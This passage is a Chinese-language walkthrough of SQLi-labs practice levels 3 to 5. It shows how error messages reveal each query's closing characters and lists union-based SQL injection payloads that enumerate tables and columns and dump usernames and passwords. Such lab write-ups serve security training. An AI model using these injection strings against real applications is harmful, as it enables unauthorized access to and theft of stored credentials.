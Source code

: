 返回一样的页面，是字符型

我又试了一下`?id=1'`，返回报错

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`

这下不仅确定是字符型，还是以`')`为闭合符

```
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
```

### 第四关

判断

`?id=2'`

没报错，看不出什么闭合

`?id=2"`

返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"2"") LIMIT 0,1' at line 1`

闭合符`")`

后续如前几关

```
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
```

### 第五关

判断

`?id=1'`

根据返回结果得为字符型注入，且`'`闭合,但是页面显示有些奇怪，始终是You are in

看看列数

`?id=1' order by 3--+`
